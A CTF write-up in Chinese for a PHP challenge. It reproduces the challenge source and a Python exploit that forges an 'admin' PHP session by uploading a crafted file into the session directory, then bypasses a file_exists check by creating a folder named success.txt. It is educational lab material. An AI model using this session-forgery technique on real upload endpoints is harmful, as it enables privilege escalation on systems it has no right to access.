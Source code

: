 tags:: [[CTF/PHP/Session]]

- # 题目
	- 题目提供了上传和下载接口供用户上传和下载文件
	- 在此处绕过检测即可得到flag
		- ```php
		  if($_SESSION['username'] ==='admin') // 需要session伪造
		  {
		      // 检测success文件是否被创建
		      echo "you are admin.\n";
		      $filename='/var/babyctf/success.txt'; // 需要任意文件写入
		      var_dump(file_exists($filename));
		      if(file_exists($filename)){
		          echo "start deleting...\n";
		          // var_dump(safe_delete($filename));
		          die($flag);
		      }
		  }
		  else{
		      $_SESSION['username'] ='guest';
		  }
		  ```
- # 思路
	- 通过伪造session构造假admin身份
	- 通过写入文件夹绕过`file_exists`并获得flag
- # 伪造session
	- 向session文件夹写入文件即可
	- 本体的session格式为`'\x08usernames:5:"admin";'`
		- 注意前方要加`\x08`，没有`|`
	- 伪造session并返回PHPSESSID的代码
	  collapsed:: true
		- ```python
		  def upload_evil_session():
		  
		      session = requests.session()
		      r = session.get(url)
		      sessid = r.cookies["PHPSESSID"]
		      r = base_post(url, data = {
		          "direction": "download",
		          "attr": ".",
		          "filename": "sess_" + sessid
		      }, files = {
		          "up_file": ("a.txt", "123")
		      })
		      with open("test.html", "wb") as f:
		          f.write(r.content)
		      # print("downloaded:", r.text.rpartition("code>")[2])
		      payload = r.text.rpartition("code>")[2].replace("guest", "admin")
		      print(enc_dec.urlencode(payload))
		      payload = '\x08usernames:5:"admin";'
		      sha256_payload = enc_dec.sha256_encode(payload)
		      # evil_session_filename = "sess_" + sha256_payload
		      r = base_post(url, data = {
		          "direction": "upload",
		          "attr": "."
		      }, files = {
		          "up_file": ("sess", payload)
		      })
		      return sha256_payload
		  ```
- # 绕过`file_exists`
	- 注意到可以创建任意文件夹
	- 我们只需要创建一个名为`success.txt`的文件夹即可
- # 题目源码以及分析
	- 代码以及初步分析
	  collapsed:: true
		- ```php
		  <?php
		  
		  error_reporting(0);
		  session_save_path("/var/babyctf/"); // 这里为session伪造提供了便利性
		  session_start();
		  
		  require_once "flag.php";
		  highlight_file(__FILE__);
		  if($_SESSION['username'] ==='admin') // 需要session伪造
		  {
		      // 检测success文件是否被创建
		      echo "you are admin.\n";
		      $filename='/var/babyctf/success.txt'; // 需要任意文件写入
		      var_dump(file_exists($filename));
		      if(file_exists($filename)){
		          echo "start deleting...\n";
		          // var_dump(safe_delete($filename));
		          die($flag);
		      }
		  }
		  else{
		      $_SESSION['username'] ='guest';
		  }
		  
		  // filter_input默认不会做任何事情
		  // direction: upload|download
		  $direction = filter_input(INPUT_POST, 'direction');
		  // attr: 文件夹名
		  $attr = filter_input(INPUT_POST, 'attr');
		  
		  // 构造$dir_path
		  $dir_path = "/var/babyctf/".$attr;
		  if($attr==="private"){
		      $dir_path .= "/".$_SESSION['username'];
		  }
		  
		  
		  if($direction === "upload"){// 上传文件
		      try{
		          // 判断是否在上传
		          if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
		              throw new RuntimeException('invalid upload');
		          }
		          // 构造file_path: 
		          // filepath = {dir_path}/{name}_{hash}
		          $file_path = $dir_path."/".$_FILES['up_file']['name'];
		          $file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
		          var_dump($file_path);
		          // 过滤file_path
		          if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
		              throw new RuntimeException('invalid file path');
		          }
		          // 创建文件夹并移动文件
		          @mkdir($dir_path, 0700, TRUE);
		          if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
		              $upload_result = "uploaded";
		          }else{
		              throw new RuntimeException('error while saving');
		          }
		      } catch (RuntimeException $e) {
		          $upload_result = $e->getMessage();
		      }
		  } elseif ($direction === "download") {
		      try{
		          // 获取filename并构造file_path
		          $filename = basename(filter_input(INPUT_POST, 'filename'));
		          $file_path = $dir_path."/".$filename;
		          var_dump($file_path);
		          // 过滤file_path
		          if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
		              throw new RuntimeException('invalid file path');
		          }
		          // 检测需要下载的文件是否存在
		          if(!file_exists($file_path)) {
		              throw new RuntimeException('file not exist');
		          }
		          // 发送文件
		          header('Content-Type: application/force-download');
		          header('Content-Length: '.filesize($file_path));
		          header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
		          if(readfile($file_path)){
		              $download_result = "downloaded";
		          }else{
		              throw new RuntimeException('error while saving');
		          }
		      } catch (RuntimeException $e) {
		          $download_result = $e->getMessage();
		      }
		      exit;
		  }
		  ?>
		  ```